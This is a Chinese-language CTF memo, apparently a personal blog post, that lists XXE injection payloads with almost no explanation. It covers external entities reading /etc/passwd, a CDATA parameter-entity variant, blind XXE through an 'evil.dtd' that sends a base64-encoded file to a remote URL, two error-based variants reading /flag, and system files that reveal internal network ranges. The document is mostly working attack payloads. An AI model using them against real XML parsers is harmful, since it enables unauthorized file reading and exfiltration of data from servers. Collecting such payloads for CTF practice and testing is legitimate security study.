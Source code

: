 ```yaml
---
title: "XXE 总结笔记"
date: 2022-08-27T18:18:31+08:00
lastmod: 2022-12-20T18:18:31+08:00
draft: false
author: "X1r0z"

tags: ['ctf','xxe']
categories: ['CTF笔记']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


记录一下常用 xxe payload

想到啥写啥, 只是一个备忘录

<!--more-->

## 引用外部实体

SYSTEM

```dtd
<!ENTITY xxs SYSTEM "file:///etc/passwd" >
```

PUBLIC

```dtd
<!ENTITY % remote PUBLIC "dtd" "http://127.0.0.1/evil.dtd">
```

## 常规 XXE

通用实体

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<test>
&file;
</test>
```

参数实体 (利用 CDATA)

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % start "<![CDATA[">
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd">
%dtd;]>
<test>
&all;
</test>
```

evil.dtd

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!ENTITY all "%start;%xxe;%end;" >
```

## Blind XXE

payload

```dtd
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://127.0.0.1/evil.dtd">
%remote;%int;%send;
]>
```

evil.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1/?p=%file;'>">
```

## Error-based XXE

引用本地 dtd

```dtd
<?xml version="1.0"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ELEMENT message ANY>
    <!ENTITY % local SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;&#x25;file;&#x27;>
        ">
        &#x25;eval;
    '>
    %local;
]>
<root>
<message>123</message>
</root>
```

多层内部实体嵌套绕过, 无需引用 dtd

```dtd
<?xml version="1.0"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ELEMENT message ANY>
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % eval1 '
        <!ENTITY &#x25; eval2 "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;&#x25;file;&#x27;>
        ">
        &#x25;eval2;
    '>
    %eval1;
]>
<root>
<message>123</message>
</root>
```

## 获取内网网段

```
/etc/network/interfaces
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```